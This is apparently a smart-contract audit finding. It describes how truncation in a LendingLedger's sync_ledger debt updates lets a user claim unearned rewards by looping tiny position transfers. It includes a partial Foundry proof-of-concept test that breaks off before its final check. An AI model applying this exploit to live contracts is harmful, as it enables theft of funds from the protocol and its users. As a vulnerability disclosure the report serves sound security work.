 The `LendingLedger::sync_ledger` function is meant to permit partial transfers of each user's positions by updating the `amount`, `rewardDebt`, and `secRewardDebt` variables.

In the current system, the partial transfers performed are insecure as a non-zero `_delta` can be transferred with zero-value `rewardDebt` and `secRewardDebt` increments.

Specifically, any non-zero `_delta` value that would result in `(_delta * market.accCanotPerShare)/ 1e18` to result in a truncation can be transferred multiple times to exploit the truncation.

As the `LendingLedger::claim` function will utilize the **cumulative `user.amount` value**, multiple `_delta` transfers can result in a non-truncated `(user.amount * market.accCanotPerShare) / 1e18` value that would result in immediate profit as the user would be able to instantly claim the truncated amounts.

### Impact

A user is able to claim rewards from the `LendingLedger` without any time elapsing and without being eligible for them by taking advantage of debt truncations in the `LendingLedger::sync_ledger` function.

This exploit can be repeated infinitely to compound the rewards extracted via this mechanism.

### Proof of Concept

I coded a simple PoC in `foundry`, simply add the following function after the `LendingLedger.t.sol::setupStateBeforeClaim` function:

```solidity
function testFreeRewards() public {
    setupStateBeforeClaim();

    // Ensure accCantoPerShare is not 1e18
    vm.prank(lender);
    vm.roll(BLOCK_EPOCH * 5 + 1);
    ledger.claim(lendingMarket);

    // Demonstrate that user can claim but will acquire `0` due to having no balance
    address noBalanceLender = users[2];
    uint256 balanceBefore = address(noBalanceLender).balance;
    vm.prank(noBalanceLender);
    ledger.claim(lendingMarket);
    uint256 balanceAfter = address(noBalanceLender).balance;

    // Ensure user is normally entitled to no reward
    assertEq(balanceBefore, balanceAfter);

    // We calculate the exact amount that we would need to transfer to capture an instant reward
    (uint256 currentAccCantoPerShare, , ) = ledger.marketInfo(
        lendingMarket
    );
    uint256 remainder = currentAccCantoPerShare % 1e18;
    uint256 numberOfTimesForWholeValue = 1e18 / remainder;

    for (uint256 i = 0; i <= numberOfTimesForWholeValue; i++) {
        // We simulate a LiquidityGauge::_afterTokenTransfer between lender and noBalanceLender
        vm.prank(lendingMarket);
        ledger.sync_ledger(lender, -1);

        vm.prank(lendingMarket);
        ledger.sync_ledger(noBalanceLender, 1);
    }

    balanceBefore = address(noBalanceLender).balance;
    vm.prank(noBalanceLender);
    ledger.claim(lendingMarket);
    balanceAfter = address(noBalanceLender).balance;
```